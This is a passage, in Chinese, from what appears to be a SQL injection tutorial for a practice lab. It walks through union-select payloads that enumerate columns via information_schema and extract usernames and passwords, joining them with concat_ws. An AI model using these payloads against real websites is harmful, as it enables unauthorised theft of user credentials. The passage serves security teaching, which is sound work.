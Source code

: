 例如：id=-1' union select null,column_name,null from information_schema.columns where table_schema='security'and table_name='emails' +--+

### 提取数据：
按照需要select某个列的数据信息。

	union select 1,2,username from users limit 3,1 +--+
来获取具体的数据信息。

**总结上述，是提取security数据库中的users表的id/username/password列的数据的过程。**

## concat_ws 函数
使用 concat_ws 函数可以获取多条数据并用所要求的符号分割开。

详见：[concat、concat_ws、group_concat函数用法](http://www.cnblogs.com/xbblogs/p/6066386.html)

例如：concat_ws(char(32,58,32),username,password)就可以同时显示出用户名和密码，用 "空格、冒号、空格" 来分割
PS：char()将ascii码转化为字符

- 32ascii表示' '
- 58ascii表示:

![例子中显示出Dumb:Dumb](/img/assets/img/get_information.png)